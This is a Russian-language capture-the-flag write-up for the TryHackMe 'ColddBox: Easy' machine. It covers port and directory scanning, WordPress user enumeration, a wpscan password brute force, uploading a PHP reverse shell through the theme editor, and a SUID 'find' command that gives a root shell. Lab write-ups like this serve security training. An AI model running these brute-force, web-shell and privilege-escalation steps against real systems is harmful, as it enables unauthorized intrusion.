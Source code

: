 # ColddBox: Easy

:white_check_mark:  [**Wpscan**](#wpscan)

:white_check_mark: [**Wordpress_theme_editor**](#wordpress_theme_editor)

___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV cold.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.1.1
```

Главная страница cold.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/1.png)

Просканируем дирекутории:
```
gobuster dir -u http://cold.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```
```
/wp-content           (Status: 301) [Size: 309] [--> http://cold.thm/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://cold.thm/]
/wp-includes          (Status: 301) [Size: 310] [--> http://cold.thm/wp-includes/]
/license.txt          (Status: 200) [Size: 19930]                                  
/wp-login.php         (Status: 200) [Size: 2547]                                   
/readme.html          (Status: 200) [Size: 7173]
/wp-admin             (Status: 301) [Size: 307] [--> http://cold.thm/wp-admin/]   
/hidden               (Status: 301) [Size: 305] [--> http://cold.thm/hidden/]     
/xmlrpc.php           (Status: 200) [Size: 42]
```

Страница cold.thm/hidden :

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/2.png)

Можем заметить некторые имена пользователей.

<a name="wpscan"></a>

На главной странице мы могли заметить, что сайт работает на wordpress, перейдем в директорию /wp-admin/. Просканируем с помощью **wpscan** имена пользователей.
```
wpscan --url cold.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/3.png)

Попробуем сбрутить пароль для имени пользователя c0ldd:
```
wpscan --url cold.thm --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

```
[SUCCESS] - c0ldd / 9<Redacted>0
```

<a name="wordpress_theme_editor"></a>

Логинимся на wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/4.png)

Переходим в редактор тем на страницу 404. Appearance -> Editor -> 404 Template. Закидываем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/5.png)

Переходим на страницу 404.php(cold.thm/wp-content/themes/twentyfifteen/404.php). Получаем shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/6.png)

Закидываем linpeas и находим suid в find.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/7.png)

На [GTFOBins](https://gtfobins.github.io/) переходим на страницу find и находим решение.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/8.png)

Переходим в директорию /usr/bin и выполныем команду:
```
./find . -exec /bin/sh -p \; -quit
```

Получаем рута.
